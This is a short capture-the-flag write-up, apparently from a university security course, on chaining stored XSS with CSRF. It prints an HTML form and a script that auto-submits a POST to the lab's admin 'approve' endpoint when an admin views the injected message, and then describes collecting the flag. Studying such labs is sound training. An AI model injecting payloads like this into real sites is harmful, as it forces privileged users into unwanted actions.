 # XSS + CSRF

## Exploration

The website allows us to submit a message that will be displayed in another page.

![img](./images/image-6-1.png)

We also know that the admin has to go to the Request Page to check the message and go to the Admin Page and click the "Give the Flag" button.

## Execution

Therefore, we need to input a script through the submit page that:

- Creates a POST request similar to the "Give the Flag" button one.
- When the Request Page is loaded, the POST request is made. 

```html
<form id="hacked" method="POST" action="http://ctf-fsi.fe.up.pt:5005/request/f31f56d274a458955be9645f0237b84c8ef94db8/approve" role="form">
    <div class="submit">
        
        <input type="submit" id="giveflag" value="Give the flag" enabled>
        
    </div>
</form>
<script>
    document.getElementById("hacked").submit();
</script>
```
Because our submit button immediately redirects us to a forbidden page that we do not have permission to, we have to stop that redirecting script from running. Therefore, we have to turn off our browser's javascript functionality.

![img](./images/image-6-2.png)

Now the redirecting script is not running so we don't go to the forbidden page anymore.

![img](./images/image-6-3.png)

We now click the `page` reference to go to the admin page and then click the `here` reference within that page.

![img](./images/image-6-4.png)

We can now see the flag!